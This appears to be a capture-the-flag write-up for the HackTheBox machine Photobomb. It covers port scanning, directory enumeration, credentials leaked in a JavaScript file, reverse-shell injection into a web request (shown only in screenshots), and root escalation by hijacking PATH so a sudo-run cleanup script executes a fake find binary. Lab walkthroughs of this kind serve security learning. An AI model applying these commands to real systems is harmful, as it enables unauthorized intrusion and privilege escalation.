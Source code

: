 ![Photobomb.PNG](/assets/PhotoBomb/photobomb.jpg)


1. Send an ICMP echo request to machine's IP address.
```bash
┌──(root㉿est)-[/home/kali]
└─| ping -c 2 10.10.11.182
```


2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.10.11.182
```

**Output**
```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

3. Add to `/etc/hosts` IP address machine and `photobomb.hbt`

![Photobomb](/assets/PhotoBomb/photobomb-host.PNG)

4. Use **feroxbuster** to enum directories of web site

```bash
┌──(root㉿est)-[/home/kali/Desktop/Photobomb]
└─| feroxbuster -u http://photobomb.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt -e
```

**Output**
```bash
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.7.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://photobomb.htb
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/common.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.7.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
401      GET        7l       12w      188c http://photobomb.htb/printer
200      GET        7l       27w      339c http://photobomb.htb/photobomb.js
200      GET       22l       95w      843c http://photobomb.htb/
200      GET        3l       22w    10990c http://photobomb.htb/favicon.ico
401      GET        7l       12w      188c http://photobomb.htb/printers
[####################] - 18s     9552/9552    0s      found:5       errors:0      
[####################] - 18s     4714/4714    260/s   http://photobomb.htb 
[####################] - 17s     4714/4714    271/s   http://photobomb.htb/ 
```

5. Access `http://photobomb.htb/photobomb.js`
![Photobomb-dir.PNG](/assets/PhotoBomb/photobomb-dir.PNG)
* Obtained a user **pH0t0** and password **b0Mb!** to login

6. After login, click on

![Photobomb-button.PNG](/assets/PhotoBomb/photobomb-button.PNG)

and analize with **BurpSuite**

![Photobomb-burp.PNG](/assets/PhotoBomb/photbomb-burp.PNG)

7. We can inject a code of reverse shell, use **https://www.revshells.com/** 
![Photobomb-rev.PNG](/assets/PhotoBomb/photobomb-rev.PNG)
> Use you **tun0** IP address


8. Listen on port of you reverse shell and inject code of reverse shell on petition
![Photobomb-inject.PGN](/assets/PhotoBomb/photobomb-inject.PNG)

9. Spawn a `/bin/bash` on reverse shell
```bash
$ python3 -c "import pty; pty.spawn('/bin/bash')"
```

**Output**
```bash
wizard@photobomb:~/photobomb$ 
```

10. Obtain a **user flag**
```bash
wizard@photobomb:~$ cd ~          
cd ~
wizard@photobomb:~$ ls
ls
photobomb  user.txt
wizard@photobomb:~$ cat user.txt
cat user.txt
4ea3bdd71c3d24ff0fca5aeb1a0230aa
```


11. To obtain a system flag look **cleanup.sh** file
```bash
wizard@photobomb:/$ cat /opt/cleanup.sh
cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

12. Manipulate a find binary to get a **/bin/bash** how root
```bash
wizard@photobomb:~/photobomb$ cd /tmp 
cd /tmp
wizard@photobomb:/tmp$ echo "/bin/bash" > find
echo "/bin/bash" > find
wizard@photobomb:/tmp$ chmod +x find 
chmod +x find
wizard@photobomb:/tmp$ sudo PATH=/tmp:$PATH /opt/cleanup.sh
sudo PATH=/tmp:$PATH /opt/cleanup.sh
```

**Output**
```bash
root@photobomb:/home/wizard/photobomb#
```
> Obtained a shell how root

13. Cat a **system flag**
```bash
root@photobomb:/# cd /root
cd /root
root@photobomb:~# ls
ls
root.txt
root@photobomb:~# cat root.txt
cat root.txt
a06bfbdbc0e5f305046a9ae7e725bd7b
```
